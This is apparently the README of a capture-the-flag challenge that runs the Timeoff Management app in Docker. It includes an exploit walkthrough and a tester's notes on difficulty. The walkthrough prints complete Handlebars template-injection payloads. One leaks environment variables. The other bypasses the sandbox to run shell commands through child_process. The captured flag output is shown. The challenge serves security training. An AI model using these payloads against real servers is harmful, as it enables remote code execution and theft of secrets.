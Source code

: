 # Vacation Planner Docker Target

This repo contains code to set up [Timeoff Management](https://github.com/timeoff-management/timeoff-management-application) as a Docker container.

The app's code is included in a submodule of this repo.

## Usage

1. Change the contents of `flag.txt`
2. `docker build -t vacation-planner .`
3. `docker run -p 3000:3000 --name vacation-planner vacation-planner`

## Exploit

After navigating to the website, you are presented with a login form. Register a new company with bogus details to access the full functionality of the web application.

There is much to browse and test, but eventually you should find the "mass email" page.

Once you try to preview a message that includes `{{`, aiming to find a server-side template injection (SSTI) vulnerability, you are presented with an error message:

```
Error: Parse error on line 1:
{{
--^
Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'EOF'
    at Parser.parseError (/var/lib/vacation-planner/timeoff-management-application/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/var/lib/vacation-planner/timeoff-management-application/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse ...
...
```

From the error message, it is possible to see that Handlebars is being used for template rendering. A quick investigation gives us http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html and the following payload:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Using this as the message body, we can read the environment variables and confirm SSTI.

After trying to get code execution using normal means, it is apparent that `require` keyword is not available in the limited sandbox provided by Handlebars.

Based on https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/, it is possible to bypass the `require` requirement by using `global.process.mainModule.constructor._load` instead.

Final exploit:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return global.process.mainModule.constructor._load(\"child_process\").execSync(\"cat flag.txt\").toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

The message preview will show the results, proving command execution is possible:

```
      e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            flag{with_with_with_with_each_with_this}
```

## Testing Notes - kip

1. The challenge website has a lot to explore. I think it would take a decent amount of time to figure out that the "mass email" function is where the template injection vulnerability lies. Idk if this would factor into the difficulty of the challenge, but I do think this would eat up a bit of time for people. Especially if the challenge description has no hints on what or where the vulnerability is.

2. I don't have experience with Javascript templates, but once I located the "mass email" page, any message with double curly braces resulted in an error message. I wasn't able to notice the "handlebars" template in the error message at first, but I think for people that have more experience with Javascript templates, it wouldn't take them long to realize that it is a template injection vulnerability with the "handlebars" Javascript template language.

3. After that, googling "handlebars template injection" gave me a bunch of blog posts. There is a lot of material online to read on it, especially regarding a vulnerability in the Shopify app. Interestingly, when I google "handlebars template injection ctf", this is the first link that comes up (https://ctftime.org/writeup/16447). It's from CSAW Quals 2019 about a challenge called "Buyify". Seems like the exact same vulnerability as the challenge we have here. It was a 500 point web challenge in CSAW Quals 2019.

4. As for coming up with the actual injection payload, I can't say much about that. Personally I do not think I would have ever gotten the right payload within the duration of the competition. But who knows, with the amount of online writeups on "handlebars template injection", maybe I could have.
Overall, it seems like a very similar challenge to the one used in previous CSAW Quals. The old challenge was weighted 500 points, but I'm sure having access to the writeup for that challenge will make this one much easier for a lot of people.
